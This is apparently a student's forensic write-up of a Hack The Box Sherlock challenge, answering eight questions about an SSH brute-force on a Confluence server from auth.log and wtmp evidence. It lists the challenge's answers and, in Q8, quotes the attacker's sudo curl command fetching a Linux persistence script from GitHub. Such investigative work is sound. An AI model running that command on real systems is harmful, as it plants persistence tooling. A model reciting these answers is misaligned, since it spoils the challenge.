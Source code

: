 ##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

___

### Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

#### A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

___

### Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

#### A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

___

### Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

#### A: 2024-03-06 06:32:45

In the wtmp file (after utmpdump bc u cant open the file just like that). We search for the root acc and the ip of the attacker and find the answer

![](../../Img/Pasted%20image%2020250425144054.png)

___

### Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

#### A: 37

This one is in the auth.log file, following the path of this questions, we can assume that it is asking for the manual login. (as oppose to the automated one, that being the first successful login of root with the attacker ip)

![](../../Img/Pasted%20image%2020250425144551.png)

___

### Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

#### A: cyberjunkie

In the same file, a little bit below we can see that a new user is created, and the modifications done to this user too.

![](../../Img/Pasted%20image%2020250425144753.png)

___

### Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

#### A: T1136.001

In the matrix (https://mitre-attack.github.io/attack-navigator/), we search first the persistence column, then for acc creation, and for the sub technique we select the appropiate (this been an acc created on the system itself it's a local acc)

![](../../Img/Pasted%20image%2020250425145401.png)

___

### Q7: What time did the attacker's first SSH session end according to auth.log?

#### A: 2024-03-06 06:37:24

In the file just look for disconnect for session 37

![](../../Img/Pasted%20image%2020250425145457.png)

___

### Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

#### A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Just below the last question we see the answer.

![](../../Img/Pasted%20image%2020250425145615.png)

Tags: [Brute Force Attacks](../../Index/Brute%20Force%20Attacks.md) [Log Analysis](../../Index/Log%20Analysis.md) [Mitre](../../Index/Mitre.md) 